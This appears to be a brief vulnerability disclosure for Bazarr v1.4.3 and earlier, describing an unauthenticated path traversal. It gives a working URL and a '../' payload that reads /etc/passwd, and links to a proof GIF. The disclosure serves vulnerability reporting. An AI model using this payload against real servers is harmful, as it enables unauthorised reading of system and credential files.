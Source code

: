 Vulnerability: File Traversal via path filename


URL: http://172.17.0.12:6767/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd


Payload: ../../../../../../../../../../../../../../../../etc/passwd


Action to trigger: None


Version: ‎Version v1.4.3 and prior


Authenticated: No


User: None


https://github.com/morpheus65535/bazarr


![](https://github.com/4rdr/proofs/blob/main/gifs/Bazaar_1.4.3_File_Traversal_via_Filename.gif)
